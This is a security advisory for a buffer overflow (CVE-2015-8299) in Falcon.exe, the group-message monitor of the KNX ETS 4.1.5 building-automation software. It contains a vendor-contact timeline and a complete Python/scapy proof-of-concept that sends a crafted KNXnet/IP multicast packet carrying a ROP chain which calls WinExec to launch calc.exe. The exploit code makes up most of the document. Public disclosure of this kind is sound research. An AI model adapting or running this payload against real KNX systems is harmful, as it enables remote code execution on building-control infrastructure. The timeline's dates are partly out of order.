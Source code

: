 ### knAx_20150101 
#### Title:
Remote code execution vulnerability in the KNX management software ETS
#### Category/Abstract:
Buffer overflow vulnerability
#### Product:
ETS (Engineering Tool Software)
#### Affected versions:
* ETS 4.1.5 (Build 3246)

*no other versions tested*
#### Fixed in version:
*unknown*
#### Vendor:
KNX Association
#### Impact:
Critical
#### CVE number:
CVE-2015-8299
#### Timeline
* `2013-10-11` identification of vulnerability 
* `2013-10-??` 1st vendor contact, no-reply of vendor on issue
* `2013-07-30` 2nd vendor contact, no-reply of vendor on issue
* `2013-10-06` 3rd vendor contact, no-reply of vendor on issue
* `2015-07-14` contact cve-request@mitre.
* `2015-11-23` [discolsed](http://seclists.org/fulldisclosure/2015/Nov/89)

#### Credits:
Aljosha Judmayer `ajudmayer@sba-research.org` (SBA Research) 
#### References:
* Information on ETS: http://www.knx.org/de/knx-tools/ets4/einfuehrung/
* KNX Association: http://www.knx.org/

#### Description:
The vulnerability is caused by a buffer overflow in a memcpy    
operation when parsing specailly crafted KNXnet/IP packets in the 
Group messages monitor (aka. Falcon). An according proof-of-concept 
exploit which was tested on an affected ETS version installed on a 
Windows XP SP3 can be found below. The proof-of-concept exploit 
generates the UDP packet which triggers the vulnerability and should 
at least crash the application (it requires python and scapy to run).                                      

#### Proof-of-concept:
Since this is just a PoC the ROP chain was not carefully selected and
might require adaptation to reproduce the desired results on your system. 

knAx.py:
```
#!/usr/bin/env python
"""  ETS4 buffer overflow exploit PoC

This is a Proof-of-Concept (PoC) remote exploit of a ETS4 which is
currently running the monitoring software for group messages aka.
"Groupenmonitor". This feature of the ETS4 runs an executable called
"Falcon.exe" which is vulnerable to a buffer overflow. 

The vulnerable function gets called at:
0043C994 call    overflow_43C743
This function, which is responsible for the overflow, is located at 0x43c743. 
The "memcpy" which produces the overflow gets called at:
0043C931 call    memcpy 

Vulnerable version:
    ETS 4.1.5 (Build 3246)
    Stammdaten: Version 57, Schema 1.1
    registry key: "NET Framework Setup"
        v2.0.50727 -version 2.2.30729
        v4 -version 4.0.30319

ETS4.exe
    LegalCopyright: Copyright \xa9 2010-2012 KNX Association cvba, Brussels, Belgium
    Assembly Version: 4.1.3246.36180
    InternalName: ETS4.exe
    FileVersion: 4.1.3246.36180
    CompanyName: KNX Association cvba
    Comments: ETS4 Application
    ProductName: ETS4
    ProductVersion: 4.1.3246.36180
    FileDescription: ETS4
    OriginalFilename: ETS4.exe

Falcon.exe
    LegalCopyright: Copyright (C) 2000-2008 KNX Association, Brussels, Belgium
    InternalName: Falcon
    FileVersion: 2.0.5184.4346
    CompanyName: KNX Association
    SpecialBuild: 2011.01.16
    LegalTrademarks: KNX Association
    OLESelfRegister: 
    ProductVersion: 2.0
    FileDescription: Falcon
    OriginalFilename: Falcon.ex

Tested on:
    Windows XP SP3 32bit

This exploit uses return-oriented-programming techniques. The gadgets used for ROP are:
ole32.dll:"0x774fdb5b","33c0c3","0x774fdb5b: xor eax, eax | 0x774fdb5d: ret | "
ole32.dll:"0x77550f6f","83c064c3","0x77550f6f: add eax, 64h | 0x77550f72: ret | "
ole32.dll:"0x774ff447","03c4c24e77","0x774ff447: add eax, esp | 0x774ff449: ret 774eh | "
user32.dll:"0x7e467666","94c3","0x7e467666: xchg esp, eax | 0x7e467667: ret | "

The exploit requires root privelages to send the crafted packet and 
the scapy python module!

PoC and vuln. discovery
by aljosha judmayer 
"""
from struct import pack,unpack
from scapy.all import *

# --- variables ---
ip_dest = "224.0.23.12"
udp_dport = 3671
udp_sport = 3671
sys_iface = "vboxnet0" # <= CHANGE ME! to external network interface 
# ---
knxhdr="\x06\x10\x05\x30\x01\xb2"
knxmsg="\xac\x01\x81\xa9\xe3\xac\xcb\x44\xff\xa2\x67\xcd\x03\x6f\x05\xe4\x58\x19\xae\x65\x1b\x14\x38\x4d\x83\x60\x06"
padding="\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"

def test():
    """ this should terminate the Falcon.exe process """
    exit="\xfa\xca\x81\x7c" # ExitProcess 0x7c81cafa, or 0xffffffff for seg fault

    sendpayload(knxhdr + knxmsg + padding + exit)
    return

def exploit():
    """ 
    This constructs a ROP payload and sends it. 
    Because of stack manipulation after the overflow we need to jump
    over some bytes. Therefore the esp is increased. 
    """

    eip  = pack("<L",0x774fdb5b)    # xor eax,eax    ;zero out register
    eip += pack("<L",0x77550f6f)    # add eax,64h    ;add jump distance
    eip += pack("<L",0x774ff447)    # add eax,esp    ;add the current position of esp
    eip += pack("<L",0x7e467666)    # xchg esp,eax   ;load the new esp address 
    # --- padding ret-sled as NOP-sled
    eip += pack("<L",0x77550f72)*28 # ret            ;use ret as nop
    # --- str chunk 1
    eip += pack("<L",0x7752f82a)    # pop ecx        ;load string 
    eip += "calc"                   # "calc"         ;string  
    eip += pack("<L",0x774faf34)    # pop eax        ;load dst. address
    eip += pack("<L",0x7ffdf8f4)    # f4f8fd7f       ;dst address
    eip += pack("<L",0x77593502)    # mov [eax], ecx ;copy ecx to [eax]
    # --- str chunk 2
    eip += pack("<L",0x7752f82a)    # pop ecx        ;load string 
    eip += ".exe"                   # ".exe"         ;string  
    eip += pack("<L",0x774faf34)    # pop eax        ;load dst. address
    eip += pack("<L",0x7ffdf8f4+4)  # f4f8fd7f +4  ;dst address + 4
    eip += pack("<L",0x77593502)    # mov [eax], ecx ;copy str. to dst.

    # --- call WinExec()
    eip += pack("<L",0x7c8623ad)    # address of WinExec()
    eip += pack("<L",0x7c81cafa)    # ret after WinExec(), into ExitProcess 0x7c81cafa
    eip += pack("<L",0x7ffdf8f4)    # address of string

    #DEBUG
    #ostr = "\\x".join("{:02x}".format(ord(c)) for c in eip)
    #print "\\x%s" %ostr

    sendpayload(knxhdr + knxmsg + padding + eip)
    return


def sendpayload(payload):
    """ send scapy udp payload """
    pkt=Ether(dst="01:00:5e:00:17:0c")/IP(dst=ip_dest)/UDP(dport=udp_dport,sport=udp_sport)/payload
    #pkt.show2() #DEBUG
    hexdump(pkt)

    sendp(pkt, iface=sys_iface)

    return

def sendpkt(pkt):
    """ send scapy pkt on layer 2, no auto stuff """
    #pkt.show2() #DEBUG
    hexdump(pkt)

    sendp(pkt, iface=sys_iface)

    return

def main():
    exploit()
    return 0

if __name__ == "__main__":
    sys.exit(main())
```
